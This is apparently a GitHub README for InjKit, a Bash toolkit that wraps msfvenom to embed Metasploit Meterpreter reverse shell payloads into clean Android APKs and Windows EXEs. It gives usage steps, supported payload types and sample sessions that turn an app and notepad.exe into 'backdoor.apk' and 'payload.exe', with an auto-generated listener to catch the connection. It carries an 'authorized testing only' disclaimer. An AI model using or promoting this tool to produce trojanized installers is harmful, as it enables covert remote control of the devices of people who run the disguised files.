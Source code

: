 # InjKit

**Payload Injector Toolkit (APK & EXE)**

InjKit is a lightweight Bash-based toolkit for injecting **Metasploit Meterpreter reverse shell payloads** into clean **Android APK** files or **Windows EXE** binaries using `msfvenom`.

---

## 📜 Overview

InjKit contains two interactive scripts:

- `apk_injector.sh` → injects payloads into APK files (Android).
- `exe_injector.sh` → injects payloads into EXE files (Windows).

---

## ⚡ Key Features

- Validates **LHOST** and **LPORT** inputs.  
- Allows selection of payload type (TCP, HTTP, HTTPS).  
- Verifies file paths before injection.  
- Automatically generates a ready-to-use Metasploit listener script (`listener.r`).  

---

## 📁 Included Scripts

### 1. `apk_injector.sh` — Android APK Injector

Injects a reverse shell payload into a clean APK.

**Features:**
- Interactive prompts for **LHOST**, **LPORT**, and payload selection.  
- Validates APK path and output filename.  
- Supported payloads:
  - `android/meterpreter/reverse_tcp`
  - `android/meterpreter/reverse_http`
  - `android/meterpreter/reverse_https`
- Generates a new APK with embedded payload.  
- Creates a Metasploit listener script (`listener.r`).  

---

### 2. `exe_injector.sh` — Windows EXE Injector

Injects a reverse shell payload into a clean EXE.

**Features:**
- Interactive prompts for **LHOST**, **LPORT**, and payload type.  
- Automatically detects EXE architecture (x86 or x64).  
- Supported payloads:
  - `windows/meterpreter/reverse_{tcp,http,https}`
  - `windows/x64/meterpreter/reverse_{tcp,http,https}`
- Validates EXE path and output filename.  
- Generates a new EXE with embedded payload.  
- Creates a Metasploit listener script (`listener.r`).  

---

## 🚀 Usage Examples

### 🔹 APK Injector

```bash
chmod +x apk_injector.sh
./apk_injector.sh

Sample Interaction:

===============================
        APK Payload Injector
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 4444
Select Payload Type:
1) android/meterpreter/reverse_tcp
2) android/meterpreter/reverse_http
3) android/meterpreter/reverse_https
Enter the path to a clean APK file: /root/app.apk
Enter the output file name (e.g., evil.apk): backdoor.apk

[*] Injecting payload into /root/app.apk...
[+] Payload injected successfully! Saved as: backdoor.apk
[+] Metasploit listener script saved as: listener.r
[*] Run it with: msfconsole -r listener.r


---

🔹 EXE Injector

chmod +x exe_injector.sh
./exe_injector.sh

Sample Interaction:

===============================
      EXE Payload Injector
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 5555
Enter the path to a clean EXE file (e.g., notepad.exe): /root/notepad.exe

=========================================
✅ Architecture detected: x64
=========================================

Select Payload Type (x64):
1) windows/x64/meterpreter/reverse_tcp
2) windows/x64/meterpreter/reverse_http
3) windows/x64/meterpreter/reverse_https
Enter choice [1-3]: 1

Enter the output file name (e.g., evil.exe): payload.exe

[*] Injecting payload (windows/x64/meterpreter/reverse_tcp) into /root/notepad.exe...
[+] Payload injected successfully! Saved as: payload.exe
[+] Metasploit listener script saved as: listener.r
[*] Run it with: msfconsole -r listener.r


---

🎯 Listener Script

Each injection automatically generates a listener.r file with the required Metasploit commands:

msfconsole -r listener.r

This starts the handler for the chosen payload automatically.


---

⚠️ Notes

Requires Metasploit Framework (msfvenom, msfconsole).

Designed for Linux systems (tested on Kali).

For educational and authorized penetration testing only.



---

💬 Feedback

Contributions, suggestions, and improvements are welcome.
InjKit was created for learning, red teaming, and ethical hacking.